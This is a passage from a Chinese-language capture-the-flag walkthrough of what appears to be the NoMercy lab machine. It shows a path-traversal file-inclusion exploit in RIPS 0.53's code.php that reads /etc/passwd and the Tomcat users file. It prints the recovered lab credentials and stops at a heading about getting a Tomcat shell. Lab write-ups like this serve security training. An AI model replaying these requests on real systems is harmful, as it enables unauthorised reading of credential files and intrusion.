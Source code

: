 # 80端口探测

在 http://192.168.2.6/robots.txt

里找到了关键 组件  `RIPS 0.53`

<img src=".\图片\Snipaste_2023-07-09_10-21-03.png" alt="Snipaste_2023-07-09_10-21-03" style="zoom:80%;" />

寻找 RIPS 0.53 已知漏洞，然后利用

发现是个文件包含

```
http://localhost/rips/windows/code.php?file=../../../../../../etc/passwd
```

```http
http://192.168.2.6/nomercy/windows/code.php?file=../../../../../../etc/passwd
```

此时可以试试读取敏感文件（最好包含账号密码啥的），就试试之前 8080 端口 搜集到的 tomcat 配置文件 信息

```http
http://192.168.2.6/nomercy/windows/code.php?file=/etc/tomcat7/tomcat-users.xml
```

得到账号密码，可能是 tomcat manager里的，也可能用 ssh 登录

```
<? <user username="thisisasuperduperlonguser" password="heartbreakisinevitable" roles="admin-gui,manager-gui"/>
<? <user username="fluffy" password="freakishfluffybunny" roles="none"/> 
```

```
thisisasuperduperlonguser:heartbreakisinevitable
fluffy:freakishfluffybunny
```

# Tomcat后台拿shell
